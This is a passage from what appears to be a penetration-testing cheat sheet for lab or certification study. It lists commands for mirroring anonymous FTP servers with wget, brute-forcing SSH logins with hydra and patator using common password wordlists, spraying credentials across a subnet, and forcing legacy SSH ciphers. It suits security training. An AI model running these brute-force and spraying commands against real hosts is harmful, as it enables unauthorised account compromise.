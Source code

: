 **Batch Download (all files)**:

```sh
# '-m' mirrors the site, downloading all files
wget -m ftp://anonymous:anonymous@VICTIM_IP
wget -m --no-passive ftp://anonymous:anonymous@VICTIM_IP
```


## SSH/SFTP - 22

### SSH Credential Bruteforcing

```sh
# using hydra
#-vV to test status 
# spray creds to entire subnet with /24
hydra -u -f -L /usr/share/wordlists/seclists/Usernames/ssh.txt -P /usr/share/seclists/Passwords/Common-Credentials/top-20-common-SSH-passwords.txt -s 22 ssh://192.168.238.64 

hydra -f -l username -P /usr/share/wordlists/rockyou.txt -W 5 ssh://192.168.238.64

# using patator: useful when services (e.g. ssh) are too old for hydra to work
patator ssh_login host=$VICTIM_IP port=2222 persistent=0 -x ignore:fgrep='failed' user=username password=FILE0 0=/usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000.txt

```

### Remove known hosts to resolve any possible ISSUES
```shell
rm ~/.ssh/known_hosts
ssh -p 2222 -i fileup root@mountaindesserts.com
```

Use Legacy Key Exchange Algorithm or Cipher with SSH If you try to ssh onto a host and get an error like:

```
Unable to negotiate with 10.11.1.252 port 22000: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1
```

You can get around this by adding the `-oKexAlgorithms=+diffie-hellman-group1-sha1` flag to your ssh command. Be sure to pick one of the algorithms listed in their offer.

You can also specify the `KexAlgorithms` variable in the ssh-config file.

Similarly, if you get an error like:

```
Unable to negotiate with 10.11.1.115 port 22: no matching cipher found. Their offer: aes128-cbc,3des-cbc,blowfish-cbc,cast128-cbc,arcfour,aes192-cbc,aes256-cbc
```

You can get around this by adding the `-c aes256-cbc` flag to your ssh command. Again, be sure to use one of the ciphers listed in their offer.
